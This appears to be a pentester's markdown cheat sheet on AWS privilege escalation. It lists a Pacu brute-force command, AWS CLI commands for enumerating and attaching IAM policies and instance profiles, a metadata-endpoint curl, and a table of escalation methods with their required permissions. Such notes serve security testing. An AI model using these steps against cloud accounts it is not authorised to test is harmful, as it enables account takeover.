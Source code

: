 # Privilege Escalation


Pacu tool 
```
run iam__bruteforce_permissions
```

## AM Privilege Escalation

Lists all managed policies that are attached to the specified IAM user :

`aws iam list-attached-user-policies --user-name user-name`

Retrieves information about the specified managed policy : 

`aws iam get-policy --policy-arn policy-arn`

Lists information about the versions of the specified managed policy :

`aws iam list-policy-versions --policy-arn policy-arn`

Retrieves information about the specified version of the specified managed policy :

`aws iam get-policy-version --policy-arn policy-arn--version-id version-id`

Add an inline policy document that is embedded in the specified IAM user :

`aws iam put-user-policy --user-name Username--Policy-name PolicyName--policy-document file://Policy.json`

Lists the names of the inline policies embedded in the specified IAM user :

`aws iam list-user-policies --user-name user-name`


[AWS IAM Privilege Escalation – Methods and Mitigation](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

| **Privilege Escalation Methods **                          | **Required Permission **                                 |
|------------------------------------------------------------|----------------------------------------------------------|
| Attaching a policy to a user                               | iam:AttachUserPolicy                                     |
| Attaching a policy to a group                              | iam:AttachGroupPolicy                                    |
| Attaching a policy to a role                               | iam:AttachRolePolicy                                     |
| Creating a new user access key                             | iam:CreateAccessKey                                      |
| Creating a new login profile                               | iam:CreateLoginProfile                                   |
| Updating an existing login profile                         | iam:UpdateLoginProfile                                   |
| Creating an EC2 instance with an existing instance profile | iam:PassRole ec2:RunInstances                            |
| Creating/updating an inline policy for a user              | iam:PutUserPolicy                                        |
| Creating/updating an inline policy for a group             | iam:PutGroupPolicy                                       |
| Creating/updating an inline policy for a role              | iam:PutRolePolicy                                        |
| Adding a user to a group                                   | iam:AddUserToGroup                                       |
| Updating the AssumeRolePolicyDocumentof a role             | iam:UpdateAssumeRolePolicy sts:AssumeRole                |
| Passing a role to a new Lambda function, then invoking it  | iam:PassRole lambda:CreateFunction lambda:InvokeFunction |
| Updating the code of an existing Lambda function           | lambda:UpdateFunctionCode                                |



## EC2 Privilege Escalation

Get Information about user identity / role identity   :

`aws sts get-caller-identity`  

Lists all managed policies that are attached to the specified IAM user :

`aws iam list-attached-user-policies --user-name user-name`

Retrieves information about the specified version of the specified managed policy :

`aws iam get-policy-version --policy-arnpolicy-arn--version-id version-id`

Get-Information about instance id  :

`curl http://169.254.169.254/latest/meta-data/instance-id`  

Lists the instance profiles :

`aws iam list-instance-profiles`

Attach an instance profile with a role to a EC2 instance: : 

`aws ec2 associate-iam-instance-profile --instance-id InstanceID --iam-instance-profile Name=ProfileName`